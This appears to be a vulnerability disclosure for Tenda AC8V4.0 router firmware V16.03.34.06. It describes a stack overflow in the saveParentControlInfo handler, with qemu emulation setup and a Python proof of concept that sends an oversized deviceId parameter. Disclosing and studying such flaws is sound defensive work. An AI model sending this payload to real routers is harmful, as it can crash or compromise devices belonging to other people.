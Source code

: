 saveParentControlInfo 栈溢出
-------------------------

### Overview

*   设备官网：[https://www.tenda.com.cn](https://www.tenda.com.cn/product/AX1806.html)
*   固件下载网站：[https://www.tenda.com.cn/material/show/103518](https://www.tenda.com.cn/material/show/103518)

### Affected version

**V16.03.34.06**

### Environmental simulation

need build Network bridge:

```text-plain
apt install uml-utilities bridge-utils
brctl addbr br0
ifconfig br0 192.168.142.100/24
brctl addif br0 ens33//搭建网桥
```

qemu start command：

```text-plain
sudo qemu-mipsel-static -L . ./bin/httpd
```

### Vulnerability details

Tenda AC8V4.0-V16.03.34.06 be discovered to contain a stack overflow via the deviceid parameter in the get\_parentControl\_list\_Info function.
![image](https://github.com/user-attachments/assets/c917cda1-c4fa-4c92-ab1b-f1af1cde1d3f)



Call chain : saveParentControlInfo -> saveParentControlInfo -> get\_parentControl\_list\_Info

### poc

Because saveParentControlInfo calls get\_parentControl\_list\_Info, But there are actually two different stack overflow triggers in saveParentControlInfo and get\_parentControl\_list\_Info

```text-plain
import requests

IP = "192.168.142.100"
url = f"http://{IP}/goform/saveParentControlInfo?"
url += "deviceId=deviceid"+ "R" * 0x300
url += "&enable=enable"
url += "&time=time"
url += "&url_enable=url_enable"
url += "&urls=urls"
url += "&day=day"
url += "&block=block"

response = requests.get(url)
print(response.content)
```
![image](https://github.com/user-attachments/assets/fd40fc46-527c-4175-8e00-38fddec43ad0)

